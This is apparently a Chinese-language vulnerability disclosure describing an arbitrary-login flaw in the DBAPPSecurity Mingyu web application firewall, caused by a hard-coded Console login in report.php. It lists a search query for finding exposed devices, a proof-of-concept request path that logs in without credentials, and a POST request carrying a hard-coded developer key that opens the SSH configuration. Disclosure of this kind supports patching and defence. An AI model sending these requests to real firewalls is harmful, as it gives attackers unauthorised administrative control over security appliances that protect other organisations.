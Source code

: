 # 安恒 明御WEB应用防火墙 report.php 任意用户登录漏洞

## 漏洞描述

安恒 明御WEB应用防火墙 report.php文件存在硬编码设置的Console用户登录，攻击者可以通过漏洞直接登录后台

## 漏洞影响

```
安恒 明御WEB应用防火墙
```

## 网络测绘

```
app="安恒信息-明御WAF"
```

## 漏洞复现

登录页面

![image-20220824142132930](./images/202208241421007.png)

验证POC

```
/report.m?a=rpc-timed
```

![image-20220824142150382](./images/202208241421426.png)

再访问主页面跳转配置页面

![image-20220824142208002](./images/202208241422055.png)

发送请求包配置系统SSH等

```
POST /system.m?a=reserved
  
key=!@#dbapp-waf-dev-reserved#@!
```

![image-20220824142219609](./images/202208241422661.png)